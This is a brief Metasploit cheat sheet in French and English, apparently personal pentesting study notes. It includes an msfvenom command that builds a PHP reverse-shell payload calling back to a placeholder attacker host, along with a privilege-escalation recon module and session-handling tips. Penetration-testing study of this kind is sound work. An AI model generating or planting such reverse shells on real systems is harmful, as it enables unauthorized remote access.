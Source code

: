 > migrate explication
> cheatsheet
> msfvenom script generation explain
> difference between setg and set
> sessions -i <number>

```bash

 # rediriger les requettes vers Burp
 set PROXIES HTTP:127.0.0.1:8080
 set RPORT PORT # ou 80
```

```bash
#list payloads 
msfvenom  --list payloads

# utilisation de msfvenom pour generer un reverse shell php
msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php
```

```bash
# privilege escalation audit and suggestion
use post/multi/recon/local_exploit_suggester
```


```bash
# run in background
bgrun

# put session in backgroud
background | ctrl + Z
```

```bash
# locate file to copy exploit that are not in current msfconsole
locate exploits

# update
apt update; apt install metasploit-framework
```


**Ressources**

[Metasploit official doc](https://www.offsec.com/metasploit-unleashed/meterpreter-basics/)
